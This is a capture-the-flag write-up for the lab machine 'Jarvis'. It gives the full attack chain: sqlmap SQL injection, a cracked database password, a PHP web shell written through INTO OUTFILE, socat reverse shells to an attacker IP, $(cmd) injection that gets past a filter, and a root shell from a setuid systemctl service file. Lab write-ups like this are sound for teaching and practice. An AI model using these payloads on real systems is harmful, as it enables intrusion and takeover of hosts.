

# USER

Enumeration of the endpoint shows a `http` endpoint.

Further investigation reveals a page `/room.php` with a `get` request called `cod`.

Running `sqlmap` on this endpoint reveals it is vulnerable to `injection` attackss


Runnin the command below leaks the tables present:
```
$ sqlmap -u http://10.10.10.143/room.php?cod=2  --dbs

available databases [4]:                                                                                                                                                                       
[*] hotel
[*] information_schema
[*] mysql
[*] performance_schema
```

Running the command below gives us information on the users present in the `mysql` database:
```
sqlmap -u http://10.10.10.143/room.php?cod=2  -D mysql -T users --dump
```

Gives us the hash:
```
*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```

Once cracking gives us:
```
DBadmin:imissyou
```

This can be used to log into the `phpMyAdmin` account!


With some investigation and experimentation we can execute the `sql` command below to create us a backdoor payload:

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/backdoor.php"
```

We can then inject our reverse shell with the payload below:
```
http://10.10.10.143/backdoor.php?cmd=socat%20exec%3A%27bash%20-li%27%2Cpty%2Cstderr%2Csetsid%2Csigint%2Csane%20tcp%3A10.10.14.55%3A6868
```

This spawns us on the box as `www-data`.

We cannot access the `user.txt` and thus need to priv esc.

When running the enum scripts it can be seen that we can run a command as `pepper`.

```
User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

The vulnerable code is below:

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

We are able to run commands but with restrictions on our input:

```python
forbidden = ['&', ';', '-', '`', '||', '|']
```

With some trial and error it can be seen that we can insert commands via the `$(cmd)` syntax. Bash will execute these first before evaulating the rest. This means we can inject:

```bash
$(socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:<PORT>)
```

To create us a strong shell with the user `pepper`. This allows us to `cat` the `user.txt`!

# ROOT

With a fresh set of enumeration `lse` shows:

```
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/bin/systemctl
```

This will allow us to create services in the context of `root`. 

Refering to the `gtfobins` service gives us the frame for a service.

The payload was used below:
```
[Service]
ExecStart=/bin/sh -c "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.55:7000"

[Install]
WantedBy=multi-user.target
```

For an unknown reason the `/tmp` directory was not suitable for the service file. Through trial and error it was found that the `/home` directory of `pepper` was a working location.

```
systemctl link ~/hack.service
systemctl enable --now hack
```

Resulted in a `socat` shell spawned as `root`!

